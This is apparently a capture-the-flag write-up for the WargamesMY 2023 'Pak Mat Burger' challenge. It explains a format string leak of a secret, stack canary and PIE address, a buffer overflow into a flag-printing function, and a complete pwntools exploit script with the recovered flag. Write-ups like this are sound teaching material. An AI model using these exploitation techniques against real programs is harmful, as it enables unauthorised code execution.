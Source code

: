 ```yaml
---
title : "Pak Mat Burger [pwn]"
categories: WargamesMY2023
---
```


Format string attack to leak information to perform buffer overflow on binary with stack protection + PIE.

*PS: I didn't solve this during the contest because skill issue :')*

[pakmatburger.zip]({{ site.url }}/files/wgmy2023/pakmatburger.zip){: .btn .btn--info}

# Analysis

The program reads an environment variable `SECRET_MESSAGE` and first asks the user to enter this value correctly. If we look at the Dockerfile, we see that this environment variable is populated at container creation within `start.sh`, and has 8 bytes of value (8 hex characters).

```
# Generate a new random SECRET_MESSAGE for each connection
export SECRET_MESSAGE=$(openssl rand -hex 4 2>/dev/null)
```

The comment is a big big lie that I only realised after the competition ended. The value will stay the same for each connection because the container isn't recreated every time.

Using `checksec`, we see that the program has full protection on (PIE, stack canary, NX).

{% include image.html url="/assets/images/wgmy2023/pakmatburger_program.png" description="Very short and simple program" %}

We notice that there is a format string vulnerability, and if we enter the value of the environment variable correctly, we get access to a buffer overflow vulnerability since `s` has size 10 only.

The goal here is to alter control flow into `secret_order` where the flag is printed to us.

{% include image.html url="/assets/images/wgmy2023/pakmatburger_secret_order.png" description="" %}

# Solution

We know for certain we have to leak these values using format string attack.

1. Environment variable `SECRET_MESSAGE`
2. Stack canary (to buffer overflow with stack protection)
3. Any PIE address value (to calculate PIE base)

By using GDB to break right before the vulnerable `printf` is called, we see that the pointer of `SECRET_MESSAGE` is at the top of the stack.

{% include image.html url="/assets/images/wgmy2023/pakmatburger_gdb.png" description="" %}

The stack canary can be found at `$rsp + 0x38`. We know this since it looks quite random and also because it is right above `$rbp`. A typical stack frame looks like:

```
+-----------------+
|                 |
| local variables |
|                 |
+-----------------+
|  stack canary   |
+-----------------+
|    saved RBP    |
+-----------------+
| return address  |
+-----------------+
        ...
```

For PIE address, I used the one at `$rsp + 0x58`, which is the address of `main` that was passed in as an argument to `__libc_start_main`.

To leak values on the stack, we can use the parameter field of format strings. Since 6 registers are used for parameters before the stack is used, the first value on the stack will be referred to with `%6$p` (or other formats than `p`). Since we are working with 64 bit programs, each increment of the field will go to the next 8 bytes (word size).

Something like this:

```python
def offset_to_fmt(offset, fmt):
    return f"%{6 + offset // 8}${fmt}"
```

The 3 values and their offsets with respect to `$rsp`:
1. `SECRET_MESSAGE`: 0x00
2. Stack canary: 0x38
3. `main` address: 0x58

However, the final format string to leak all at once would be more than 11 characters long. But since `SECRET_MESSAGE` stays the same, we can leak it first, then only leak the latter two values in a new connection.

After getting the address of `main`, we subtract that by its offset to get the PIE base address, which is then added by the offset of `secret_order` to get the actual address of `secret_order`.

Finally, for the buffer overflow, we will need a padding of `0x25` since the buffer `s` is at `rbp-2Dh` according to IDA.

> 0x2D = 0x25 (padding) + 0x8 (stack canary)

The final payload will be: padding + stack canary + padding for saved rbp + address of `secret_order`

# Final Script
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("pakmat_burger_patched")
context.binary = exe

def conn():
    if args.LOCAL:
        context.log_level = "debug"
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        context.log_level = "debug"
        r = remote("13.229.150.169", 34061)

    return r

def offset_to_fmt(offset, fmt):
    return f"%{6 + offset // 8}${fmt}"

def get_secret():
    r = conn()

    fmt_str = offset_to_fmt(0, "s")
    r.sendlineafter(b": ", fmt_str.encode())

    r.recvuntil(b" ")
    secret_msg = r.recvn(8)

    r.close()
    return secret_msg

def main():
    secret_msg = get_secret()

    r = conn()
    pause()

    # rsp offsets
    canary_offset = 0x0038
    main_addr_offset = 0x0058

    fmt_str = offset_to_fmt(canary_offset, "p") + offset_to_fmt(main_addr_offset, "p")
    r.sendlineafter(b": ", fmt_str.encode())

    r.recvuntil(b" ")
    canary = int(r.recvn(18).decode(), 16)
    main_addr = int(r.recvuntil(b",")[:-1], 16)
    exe.address = main_addr - exe.sym["main"]

    info("canary: " + hex(canary))
    info("main addr: " + hex(main_addr))
    info("pie base: " + hex(exe.address))

    r.sendlineafter(b": ", secret_msg)

    r.recvline()
    r.sendline(b"anything")

    secret_order = exe.sym["secret_order"]

    payload = b"A" * 0x25 + p64(canary) + b"B" * 8 + p64(secret_order + 5)
    r.sendlineafter(b": ", payload)

    print(r.recvall())

if __name__ == "__main__":
    main()
```

Flag: `wgmy{4a029bf40a28039c8492acfa866f8d96}`
